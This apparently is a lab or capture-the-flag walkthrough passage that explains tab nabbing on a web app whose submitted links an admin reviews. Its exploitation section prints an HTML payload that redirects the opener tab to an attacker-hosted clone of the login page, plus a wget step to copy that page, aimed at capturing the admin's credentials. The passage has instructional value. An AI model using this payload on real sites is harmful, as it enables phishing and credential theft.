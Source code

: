 - The login page source code seems doesn't give us any lead
- So we will create an account to proceed further
  ![create account](images/.png)
- We can now login
  ![welcome](images/.png)

## Inspection
- The website allows us to enter any link in the Blog link form
- On submission it creates an hyperlink when clicked opens a new tab
- That's where we got something
   ![bingo](images/.png)
- The website is vulnerable to Tab nabbing.
  - What is tab nabbing?
    - imagine you're reading an interesting article on a website, and within this article, there's a link that catches your eye.
    - You click on it, and the link opens in a new tab in your browser.
    - While you're looking at the new tab, the original tab (where the link was) quietly changes to a fake page. This fake page is designed to look like the legitimate website.
    - When you return to the original tab, you might not notice it has changed. If the page now asks you to log in again, you might think you were logged out automatically and re-enter your credentials, not realizing you're giving your login details to an attacker.
  - It is said on the welcome page that all links will be reviewed by the admin, so we got ourselves a lead.

## Exploitation
- create a temporary folder where we will host our 'fake' website
- The main idea here is to capture the target (which is now the website admin) credentials
- For that we will need him to connect to our machine where we will have a listener waiting for him
  ```
   ┌──(kali㉿kali)-[~/Documents/fake_website
  └─$ cat submit.html
  <!DOCTYPE html>
  <html>
  <head>
    <title>hehe</title>
  </head>
  <body>
    <script>
        window.opener.location = "http://10.0.2.8:8082/index.html";
    </script>
  </body>
  </html>
  ```

- note that `10.0.2.8` should be replaced by the attacker ip address and you should use any unoccupied port you want
- and window.opener.location is the JavaScript code that attempts to change the legit website tab to the one hosted on our machine. 
- Hence we will also have a perfect copy of the target login page which we will rename `index.html` in the same folder
  - For this you can just `wget http://10.0.2.7/index.php ` and rename with `mv index.php index.html`
 